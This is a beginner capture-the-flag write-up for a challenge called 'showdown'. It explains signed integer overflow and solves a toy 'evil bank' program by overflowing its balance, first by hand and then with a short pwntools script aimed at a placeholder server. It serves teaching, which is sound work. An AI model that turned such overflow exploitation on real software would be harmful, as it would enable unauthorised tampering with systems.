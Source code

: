 # Challenge Name
showdown

## Learning Objective
Learn about integer overflow

## Description 
The Evil Megacorp has stolen people's money! We managed to get in secretly but gotta break their bank somehow...

## Difficulty:
easy

## Guide
We have the following:

```sh
-----------EVIL MEGACORP BANK-----------
Bank Amount: 100000
----------------------------------------

Options:
1. Hack
2. Weaken
3. Steal
Enter your choice: 
```

Let's breakdown what happens each option:
1. Hack - sends 10000 to the bank, multiplied by the `multiplier` variable
2. Weaken - multiplies `multiplier` variable by 10, but caps at 10 million
3. Steal - takes away 20000 from the bank

if we attempt to steal all the money, you will wind up with this output:

```sh
You've been caught by the system administrator.
```

This is because the program will catch if the bank amount is between 0 to -100000. The flag only prints if the value is beyond -100000.

So what can we do then?

### Integer overflow
This happens when you try to exceed the value that is meant for the integer type assigned to a variable. In this case, we want to overflow this value:

```c
signed bank_amt = 100000;
```

### Signed integer
`Signed` integers can be both positive and negative values. But with `1`s and `0`s, how can there be negative numbers?

This is because `signed` integers allocate the **upper** half of its space to negative integers.

```sh
# Signed 4 byte integer

Hex: 0x7FFFFFFF
Dec: 2,147,483,647

Hex: 0x80000000
Dec: -2,147,483,648

# means anything beyond 0x7FFFFFFF is negative
```

### What can we do?
In this case, since we want to break the bank amount (make it go negative), we will
1. Cap the `multiplier` variable (use weaken)
2. Hack with the max multiplier

### Manual Solve
1. Use `weaken` 7 times (to cap `multiplier`)
2. use `hack` (send the final amount)

You should be able to observe the final bank amount as well.

### Script solve
we first choose option 2 (weaken) 7 times. We can just do this in a loop:

```py
from pwn import *

p = remote("SERVER", PORT)

for i in range(7):
    p.sendline(b'2')
```

If we are gonna receive the flag, we need to first remove the previous lines that we have received so far. This can be done with the following:

```py
p.clean()
```

and finally choose option 1 and receive the flag.

```py
p.sendline(b'1')
print(p.recvall().strip().decode())
```

### Final
```py
from pwn import *

p = remote("SERVER", PORT)

for i in range(7):
    p.sendline(b'2')
p.clean()
p.sendline(b'1')
print(p.recvall().strip().decode())
```
## Solution
Refer to solve.py

## Hints
1. Search up "signed integers"
2. Figure a strategy to send a big amount to the bank.

## Attached Files
- chall.c
- chall

## Resources
- https://www.geeksforgeeks.org/different-ways-to-represent-signed-integer/

## Flag
TBD